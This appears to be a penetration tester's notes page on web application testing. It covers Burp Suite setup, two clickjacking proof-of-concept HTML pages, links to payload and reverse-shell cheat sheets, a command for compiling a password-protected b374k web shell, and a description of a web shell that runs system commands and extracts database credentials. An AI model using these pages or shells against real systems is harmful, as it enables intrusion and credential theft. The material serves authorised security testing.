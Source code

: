 # Webapp Pentesting

Burp "Quick Start" guide
--------
I did a video demo of how to get up and going with Burp quickly in [episode #230](https://7ms.us/7ms-230-pentesting-owasp-juice-shop-part-1/) of the 7 Minute Security podcast.  It includes things like:

* Getting Burp installed
* Installing the SSL cert
* Installing FoxyProxy and proxying traffic through Burp
* Setting up a quick shell script to start Burp from the command line:
  * `java -Xmx2g -jar burpsuite.jar`

* Installing helpful extensions from the BApp store :

 * CO2
 * CSRF Scanner
 * JS Beautifier
 * Retire.js
 * SQLiPy
 * Wsdler

Clickjacking sample
------
# Clickjacking

Here's a good page about [clickjacking](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009)), and if you need to whip together a quick PoC for a client, I find this one works pretty well:

---

````
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html>
````

---

As does this one:

````
<html>
<title>This is your totally safe corporate site...OR IS IT?!?!?!?!?!?</title>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="https://name-of-site-without-sameorigin-set-correctly.com">
    </iframe>
    <div>
      <a href=" http://www.some-really-really-bad-site.com "></a>
    </div>
  </body>
</html>
````


Payloads
--------

* [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is "a list of useful payloads and bypass for Web Application Security and Pentest/CTF."

* [XSS-Problems](https://github.com/karelorigin/XSS-Problems/tree/master) will "help you solve problems you might encounter while trying to XSS a target."

Web Shells
--------

## General guidance/usage
This [blog](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) gives some great guidance and a checklist for using/abusing Webshells.

The [HighonCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) cheat sheet is also awesome. 

#### Webshells for download

### B374K
One of my fav Web shells is [b374k](https://github.com/b374k/b374k), and as a quick ref, once you clone it from github, you can get a shell compiled pretty quick with:

`php -f index.php -- -o myShell.php -p MyPasswordGoesHere -s -b -z gzcompress -c 9`

### cmdsql
This nice [Webshell](https://github.com/NetSPI/cmdsql) from NetSPI is handy for the following tasks (according to the Web site)

* Execute operating system commands
* Parse web.config files for connection strings (based on root directory)
* Execute MSSQL queries using connection strings recovered from web.config files

Note: the accompanying [blog](https://blog.netspi.com/adding-powershell-to-web-shells-to-get-database-access/) reminds us that this only works on IIS sites that allow execution of .aspx files.

XSS
------
Nice site showing the [risks of XSS](https://www.dionach.com/blog/the-real-impact-of-cross-site-scripting).
